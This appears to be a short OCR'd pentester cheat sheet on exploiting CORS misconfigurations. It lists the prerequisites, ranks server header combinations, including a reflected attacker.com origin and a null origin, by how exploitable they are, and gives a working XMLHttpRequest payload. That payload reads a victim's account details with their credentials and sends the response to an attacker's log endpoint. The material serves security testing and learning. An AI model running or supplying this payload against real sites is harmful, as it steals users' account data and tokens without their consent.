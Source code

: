 To Kawili:
=================================================

Cross Origin Resource Sharing:

*Attack is initiated by the attacker
*No need to send or social engineer victim 
*Once CORS exploitability is validated, send the following XMLHttp request:

Pre-requisite of attack:
1. CORS misconfiguration (validated through burp or curl)
2. You have session cookie of the victim (or check if this is required) 
3. You know the URL which has CORS misconfiguration and will give you sensitive information like tokens etc 


Ways to exploit CORS:

POORLY IMPLEMENTED, BEST CASE FOR ATTACK:
Access-Control-Allow-Origin: https://attacker.com
Access-Control-Allow-Credentials: true

POORLY IMPLEMENTED, EXPLOITABLE:
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true

BAD IMPLEMENTATION BUT NOT EXPLOITABLE:
Access-Control-Allow-Origin: *
Access-Control-Allow-Credentials: true

or just

Access-Control-Allow-Origin: *



~~~~~~~~
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8

<script>
   var req = new XMLHttpRequest();
   req.onload = reqListener;
   req.open('get','https://victim/accountDetails',true);
   req.withCredentials = true;
   req.send();

   function reqListener() {
       location='/log?key='+this.responseText;
   };
</script>
~~~~~~~~
